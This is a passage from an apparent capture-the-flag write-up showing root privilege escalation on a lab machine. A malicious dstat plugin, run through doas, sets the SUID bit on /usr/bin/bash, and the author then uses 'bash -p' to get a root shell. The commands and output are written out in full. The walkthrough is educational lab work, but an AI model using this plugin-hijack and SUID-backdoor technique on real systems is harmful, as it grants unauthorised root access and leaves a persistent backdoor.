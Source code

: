 or this https://github.com/carlospolop/PEASS-ng
```
══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group player:                                                             
/usr/local/share/dstat
```
We got the writable files. We can create and insert the script.
```
player@soccer: ~$ cd /usr/local/share/dstat
player@soccer:/usr/local/share/dstat$ nano dstat_niesha.py
player@soccer:/usr/local/share/dstat$ cat dstat_niesha.py
import os
os.system('chmod +s /usr/bin/bash')
player@soccer:/usr/local/share/dstat$ dstat --list | grep niesha
        niesha
player@soccer:/usr/local/share/dstat$ doas -u root /usr/bin/dstat --niesha
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
Module dstat_niesha failed to load. (name 'dstat_plugin' is not defined)
None of the stats you selected are available.
player@soccer:/usr/local/share/dstat$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
b***d
```
We got the root :)

Thank you for reading 👋.

---
